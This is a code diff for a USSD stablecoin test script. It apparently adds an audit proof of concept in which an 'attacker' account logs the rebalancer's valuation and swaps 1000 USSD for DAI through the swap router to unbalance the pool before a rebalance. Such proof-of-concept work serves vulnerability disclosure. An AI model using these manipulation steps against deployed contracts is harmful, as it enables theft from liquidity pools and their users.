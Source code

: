 ```diff
-                    "recipient": accounts[0],
-                    "amountIn": "100000000",
-                    "amountOutMin": 0,
-                }
-              );
+    let valuation2 = await this.rebalancer.getOwnValuation({ from: accounts[0] });
+    console.log(`USSD rebalancer price valuation is: ${valuation2}`);
+
+    let collateralFactor = await this.USSD.collateralFactor({ from: accounts[0] });
+    console.log(`Current USSD collateral factor: ${collateralFactor}`);
+
+    console.log("------------------------------- POC----------------------------------------------"); 
     
-              await web3.eth.sendTransaction({
-                to: SWAP_ROUTER_ADDRESS,
-                data: "0xb858183f" + argsparam.substring(2),
-                from: accounts[0],
-                gas: '7000000'
-              }, function(error, hash){
-                if (error != null) {
-                    console.log('Error', error);
-                } else {
-                    console.log('exactInput swap operation tx hash', hash);
-                    txhash = hash;
-                }
-              });
-              break;
-        case 6:
-                console.log("Performing rebalancing");
-                await this.rebalancer.rebalance();
-                break;
-        }
+    //1. Attacker swaps 1000 USSD for DAI to slighly unbalance the pool
+    argsparam = web3.eth.abi.encodeParameter(
+      {
+          "params": {
+              "path": 'bytes',
+              "recipient": 'address',
+              "amountIn": 'uint256',
+              "amountOutMin": 'uint256',
+          }
+      },
+      {
+        "path": path_DAI_USSD,
+        "recipient": accounts[0],
+        "amountIn": "1000000000000000000000",
+        "amountOutMin": 0,
       }
+    );
+    await web3.eth.sendTransaction({
+      to: SWAP_ROUTER_ADDRESS,
+      data: "0xb858183f" + argsparam.substring(2),
+      from: accounts[0],
+      gas: '7000000'
+    }, function(error, hash){
+      if (error != null) {
+          console.log('Error', error);
+      } else {
+          console.log('exactInput swap operation tx hash', hash);
+          txhash = hash;
+      }
+    });
```